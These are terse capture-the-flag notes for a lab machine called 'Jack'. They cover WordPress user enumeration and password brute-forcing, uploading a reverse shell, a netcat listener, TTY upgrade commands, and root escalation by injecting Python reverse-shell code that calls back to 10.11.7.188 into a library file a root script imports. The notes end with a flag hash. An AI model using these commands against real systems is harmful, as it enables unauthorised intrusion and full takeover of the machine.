 # Jack

1. sudo nmap -sC -sV -oN nmap/$(basename $PWD) $IP
2. wpscan -e u,ap --url http://jack.thm
   - Users: wendy danny jack
3.  wpscan -U users.txt -P /opt/fasttrack.txt --url jack.thm
   -  Username: wendy, Password: changelater
4. Burpsuite get admin
5. Upload rev shell
6. nc -nvlp 4444

7. 

```
# In reverse shell
$ /usr/bin/python3.5 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-Z

# In Attacker console
stty -a
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>  
```

  - python -c 'import pty; pty.spawn("/bin/bash")'
8.  find / -type d -name backup* 2>/dev/null
    ssh -i /var/backups/id_rsa jack@127.1
9. Use `pspy ` find /opt/statuscheck/checker.py
10. id
    find / -group family -ls 2>/dev/null
11. ls -la /usr/lib/python2.7/os.py

```
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.11.7.188",9999))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

cat root.txt
b8b63a861cc09e853f29d8055d64bffb
